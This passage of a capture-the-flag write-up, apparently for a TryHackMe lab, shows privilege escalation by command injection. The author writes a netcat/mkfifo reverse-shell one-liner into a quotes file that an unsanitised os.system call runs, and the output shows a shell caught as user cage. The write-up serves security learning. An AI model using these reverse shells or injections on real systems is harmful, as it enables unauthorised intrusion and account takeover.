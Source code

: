 - Quotes are sick tho but let's get back to work. We are in group `cage` so i checked all the files related to it. There's two files, a Python script that runs these quotes each minute or so and the list of quotes.

  ```
  weston@national-treasure:~$ id
  uid=1001(weston) gid=1001(weston) groups=1001(weston),1000(cage)
  
  weston@national-treasure:~$ find / -type f -group cage 2>/dev/null
  /opt/.dads_scripts/spread_the_quotes.py
  /opt/.dads_scripts/.files/.quotes
  
  weston@national-treasure:~$ cat /opt/.dads_scripts/spread_the_quotes.py 
  #!/usr/bin/env python
  
  #Copyright Weston 2k20 (Dad couldnt write this with all the time in the world!)
  import os
  import random
  
  lines = open("/opt/.dads_scripts/.files/.quotes").read().splitlines()
  quote = random.choice(lines)
  os.system("wall " + quote)
  ```
  
- You can also run `sudo -l` and `cat /usr/bin/bees` to confirm that they are all connected. Since we don't have permission to edit the script in any way, our only option is to edit the quotes list. Let's put reverse shell inside and start a listener.
  I found this one liner but you can use any reverse shell that you like.

  ```
  weston@national-treasure:/$ sudo -l
  [sudo] password for weston: 
  Matching Defaults entries for weston on national-treasure:
      env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
  
  User weston may run the following commands on national-treasure:
      (root) /usr/bin/bees
  weston@national-treasure:/$ cat /usr/bin/bees 
  #!/bin/bash
  
  wall "AHHHHHHH THEEEEE BEEEEESSSS!!!!!!!!"
  
  weston@national-treasure:/$ file /usr/bin/bees 
  /usr/bin/bees: Bourne-Again shell script, ASCII text executable
  ```

  ```
  nc -lvnp 4444

  weston@national-treasure:~$ echo "hehexd;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [YOUR-THM-IP] 4444 >/tmp/f" > /opt/.dads_scripts/.files/.quotes 
                                                                               
  Broadcast message from cage@national-treasure (somewhere) (Sat May 10 13:57:01 
                                                                                 
  hehexd

  nc -lvnp 4444
  listening on [any] 4444 ...
  connect to [YOUR-THM-IP] from (UNKNOWN) [10.10.13.81] 41378
  /bin/sh: 0: can't access tty; job control turned off
  $ whoami
  cage
  $ id
  uid=1000(cage) gid=1000(cage) groups=1000(cage),4(adm),24(cdrom),30(dip),46(plugdev),108(lxd)
  ```
